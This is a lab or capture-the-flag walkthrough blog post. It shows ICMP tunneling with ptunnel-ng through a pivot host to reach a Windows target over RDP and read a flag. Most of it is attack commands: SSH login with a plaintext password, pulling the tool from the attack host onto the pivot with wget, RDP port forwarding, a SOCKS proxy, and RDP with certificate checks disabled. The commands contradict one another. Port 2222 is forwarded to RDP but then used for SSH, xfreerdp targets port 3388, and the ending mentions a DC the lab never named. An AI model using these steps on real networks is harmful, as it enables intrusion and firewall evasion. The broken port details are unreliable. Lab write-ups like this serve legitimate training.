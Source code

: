 ```yaml
---
title: ICMP Tunneling with ptunnel-ng to Access Internal Windows Host
author: saramazal
date: 2025-06-22
categories: [Pivoting]
tags: [pivoting, tunelling, ptunnel-ng]     # TAG names should always be lowercase
img_path: /images/covers
image:
  path: /images/covers/pivoting.jpg
---
```


# 🛰️ ICMP Tunneling with ptunnel-ng & SOCKS: Pivot to WinTarget

In this lab, we demonstrate how to use `ptunnel-ng` to establish an ICMP-based tunnel from an **Attack Host** to a **Pivot Host**, and then pivot further to a **Windows Target** to retrieve a flag.

---

## 🔧 Environment Setup

```bash
# Set Environment Variables
export AttackHost=10.10.xx.xx
export PivotHost=10.129.xx.xx
export WinTargetIp=172.16.xx.xx

export username=ubuntu
export passwd='pivotpass123'

export winuser=winuser
export winpasswd='pass@123'
````

---

## 🐚 Access Pivot Host

```bash
# Using sshpass to connect
sshpass -p "$passwd" ssh $username@$PivotHost
```

---

## 🛠️ Clone & Build ptunnel-ng

```bash
# On Attack Host
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng/
sudo apt install automake autoconf -y

# Patch autogen.sh for static build
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh

./autogen.sh
```

---

## 📦 Transfer to Pivot Host

```bash
# Serve files from Attack Host
python3 -m http.server 8123

# On Pivot Host (via SSH)
wget http://$AttackHost:8123/ptunnel-ng.tar.gz
tar -xvzf ptunnel-ng.tar.gz
```

Or using SCP:

```bash
scp -r ptunnel-ng $username@$PivotHost:~/
```

---

## 📡 Start ptunnel-ng Server on Pivot

```bash
# On Pivot Host
cd ~/ptunnel-ng/src
sudo ./ptunnel-ng -r$WinTargetIp -R3389
```

---

## 🔁 Start ptunnel-ng Client on Attack Host

```bash
# On Attack Host
cd ptunnel-ng/src
sudo ./ptunnel-ng -p$PivotHost -l2222 -r$WinTargetIp -R3389
```

---

## 🧠 Connect via SSH or SOCKS

```bash
# Option 1: Direct tunnel to pivot (useful for shell)
ssh -p2222 -l$username 127.0.0.1

# Option 2: Dynamic SOCKS proxy
ssh -D 9050 -p2222 -l$username 127.0.0.1
```

---

## 🖥️ Access WinTarget via RDP

```bash
xfreerdp /v:127.0.0.1:3388 /u:$winuser /p:$winpasswd
```

If prompted with cert warnings, ignore them using:

```bash
xfreerdp /v:127.0.0.1:3388 /u:$winuser /p:$winpasswd /cert-ignore
```

---

## 🏁 Retrieve the Flag

Once connected to the desktop or through shell access, retrieve:

```cmd
type C:\Users\winuser\Downloads\flag.txt
```

---

## ✅ Success!

You’ve successfully tunneled through ICMP from your Attack Box to the DC, bypassing traditional firewall rules. This technique is stealthy and powerful in restricted environments.

---

*Stay sneaky, stay ethical.* 🕶️

**~ Maz4l 🤺**

---